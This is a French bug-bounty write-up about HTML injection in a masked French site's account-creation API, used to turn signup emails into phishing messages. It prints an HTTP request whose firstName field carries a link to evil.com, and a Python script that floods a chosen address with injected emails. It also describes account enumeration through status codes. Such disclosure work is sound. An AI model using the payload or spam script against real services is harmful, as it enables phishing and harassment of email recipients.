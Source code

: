 ```yaml
---
published: true
layout: post
title: "Bug Bounty : De hacker à phisher"
description: "Cet article décrit comment une injection de caractères permet de créer un scénario de phishing dans le cadre d'un BugBounty"
lang: fr_FR
category: Bug Bounty, injection, phishing
---
```

![Bug Bounty : De hacker à phisher](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/illustration.jpg)

Dans ce court article, j'expliquerai comment j'ai pu exploiter une vulnérabilité de l'API d'un grand site français pour en faire un scénario de phishing. Je précise bien évidemment que tout a été fait dans la légalité car le site en question est inscrit sur une plateforme de Bug Bounty et j'ai été invité à ce Bug Bounty privé.

## Injection de caractères spéciaux via l'interface
Je me suis interessé à l'interface de création de compte du site en question, je me suis rendu compte que lors de l'inscription, un mail est envoyé avec le prénom de la personne qui s'est inscrite. J'ai alors essayé d'injecter des caractères spéciaux. Il ne m'a pas été possible d'injecter des caractères via l'interface :
[![Injection de caractères](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/interface.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/interface.jpg)

## Injection de caractères spéciaux via l'API
Je me suis alors penché sur l'API et j'ai regardé les requêtes qui sont envoyées. J'ai tout d'abord envoyé des informations valides. L'API envoie alors un mail sur l'adresse indiquée avec un lien de validation et retourne le code `200`.
Si l'adresse existe déjà, aucun mail n'est envoyé et le code de retour est le `409`.

Grâce à cette information, il est déjà possible de faire un script d'énumération de comptes. J'ai également signalé cette vulnérabilité aux créateurs du site.

J'ai ensuite injecté dans le champ `firstName`les caractères souhaités via l'API :
```
POST /api/accounts?callback=https%3A//www.xxx.xxxx/espaceclient/managecustomer/accountcreationcallbackurl%3FloginHint%3Dbugbounty@yopmail.com&send_notif_email=true&is_migrated=false HTTP/1.1
Host: connect.xxxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: fr
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-App: CCL
Content-Length: 224
Origin: https://www.xxx.xxxx
DNT: 1
Connection: close

{
  "email":"bugbounty1234@yopmail.com",
  "password":"Toto123!",
  "firstName":"<a href=\"http://evil.com\">Merci de payer le billet",
  "lastName":"Bounty",
  "civility":"M",
  "birthdate":"1998-1-1",
  "mobileNumber":"+33677889988"
}
```

Le code d'erreur `200` est renvoyé, ce qui signifie que la requête a correctement été interprétée :
```
HTTP/1.1 200 OK
date: Sun, 01 Nov 2020 21:26:40 GMT
set-cookie: SFCP61API=SFCSERP61API; path=/
strict-transport-security: max-age=15768000
access-control-allow-origin: *
access-control-max-age: 1000
access-control-allow-headers: X-App, X-Requested-With, Content-Type, Origin, Authorization, Accept, Client-Security-Token, Accept-Encoding, X-OpenAM-Username, X-OpenAM-Password
access-control-allow-methods: POST, GET, PUT, DELETE
content-length: 0
x-cdn-srv: ovh-sbg-cache-1
connection: close
```

Le mail reçu est alors le suivant :
[![Mail d'inscription](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail.jpg)

Si l'utilisateur clique sur `Merci de payer le billet`, il sera redirigé vers le site http://evil.com

## Créer ou migrer pour exploiter ?
J'ai ensuite regardé les paramètres de la requête et notamment le paramètre `is_migrated=false`. J'ai rejoué la même requête mais en mettant la valeur à `is_migrated=true`. Le mail reçu a alors cette forme :
[![Mail de migration](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail2.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/mail2.jpg)

Le système de mail considère que le compte existe déjà et choisi un autre template de mail. J'ai essayé de jouer avec ce paramètre pour voir la réaction du système sur un compte qui existe déjà, l'API vérifie correctement et il n'est pas possible d'envoyer le mail sur un compte existant.

## Script d'exploitation
Afin de réaliser une jolie preuve de concept en vidéo, j'ai créé un script Python qui m'a permis d'exploiter cette vulnérabilité. Le script est capable de :
- Injecter un lien malveillant dans le mail
- Choisir le nombre de mails à envoyer (pour spammer)
- Lister les comptes qui existent déjà

Pour les besoins du POC, j'ai séparé la fonctionnalité de listing des comptes dans un autre script que je ne présenterai pas ici, mais visiblement cela n'a pas intéressé l'entreprise en question.

```python
# -*- coding: utf-8 -*-
import requests, argparse

print("""
 ██████╗██╗     ███████╗██████╗ ███████╗██████╗
██╔════╝██║     ██╔════╝██╔══██╗██╔════╝██╔══██╗
██║     ██║     █████╗  ██████╔╝█████╗  ██████╔╝
██║     ██║     ██╔══╝  ██╔══██╗██╔══╝  ██╔══██╗
╚██████╗███████╗███████╗██████╔╝███████╗██║  ██║
 ╚═════╝╚══════╝╚══════╝╚═════╝ ╚══════╝╚═╝  ╚═╝
30/04/2020
API account spammer
Créé par Clément BOUDER pour le Bug Bounty YesWeHack
Ceci est un PoC merci de ne pas l'utiliser de manière malveillante
Mon site : https://clement-bouder.fr
""")

parser = argparse.ArgumentParser()
parser.add_argument("mail", help="L'adresse mail du mail a spammer",type=str)
parser.add_argument("nombre", help="L'adresse mail du mail a spammer", type=int)
parser.add_argument("texte", help="Le texte à envoyer",type=str)
args = parser.parse_args()
nombre_de_mail = args.nombre
mail_a_spammer = args.mail
texte = args.texte
print("Début du spam")
avancement = 0
for i in range(nombre_de_mail):

    url_api = "https://connect.xxxx.com:443/api/accounts?callback=https%3A//www.xxx.xxxx/espaceclient/managecustomer/accountcreationcallbackurl%3FloginHint%3D" + mail_a_spammer + "&send_notif_email=false&is_migrated=true"

    entete_requete = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0", "Accept": "application/json", "Accept-Language": "fr", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/json", "X-App": "CCL", "Origin": "https://www.xxx.xxxx", "DNT": "1", "Connection": "close", "Referer": "https://www.xxx.xxxx/"}

    donnees_requete={"birthdate": "2000-1-1", "civility": "M", "email": mail_a_spammer, "firstName": texte, "lastName": "xxxx pour un Bug Bounty", "mobileNumber": "+33689564313", "password": "unMotDePass!1"}

    result = requests.post(url_api, headers=entete_requete, json=donnees_requete)


    if result.status_code == 409:
        print("Compte déjà existant, impossible de spammer")
        exit()
    elif result.status_code != 200:
        print("Erreur inconnue : " + str(result.status_code) + str(result.text))
        exit()
    avancement = ((i*100)/nombre_de_mail)
    print("Avancement : " + str(avancement) + "%")
print("Avancement : 100%")
print(str(nombre_de_mail) + " mails envoyés")
```

Le rendu est alors le suivant :

[![Script d'exploitation](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/script.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/script.jpg)

## Conclusion
Je n'ai pas pu aller plus loin dans l'exploitation de la vulnérabilité. J'ai donc écrit mon rapport et fait ma vidéo de preuve de concept avec un score CVSS de 5.4. Elle a été acceptée mais non payée car déjà déclarée :

[![Réponse sur YesWeHack](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/ywh_reponse.jpg)](/assets/images/2020-11-02-Bug-Bounty-de-hacker-a-fisher/ywh_reponse.jpg)

Pour conclure, pensez bien à ne **jamais** faire **confiance à ce qu'entre l'utilisateur** et **toujours nettoyer les entrées utilisateur**.
